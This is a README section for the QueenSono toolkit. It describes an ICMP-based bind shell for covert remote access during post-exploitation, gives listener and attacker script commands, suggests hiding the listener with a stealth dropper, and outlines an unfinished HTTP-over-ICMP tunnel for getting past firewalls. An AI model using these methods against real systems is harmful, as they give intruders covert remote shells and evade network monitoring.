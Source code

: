 # Hack

Some fun things using `QueenSono`

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Should I adapt it to use ICMP ? 🤔*

## HTTP over ICMP tunneling

🚧🚧🚧🚧**WIP**🚧🚧🚧🚧

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```
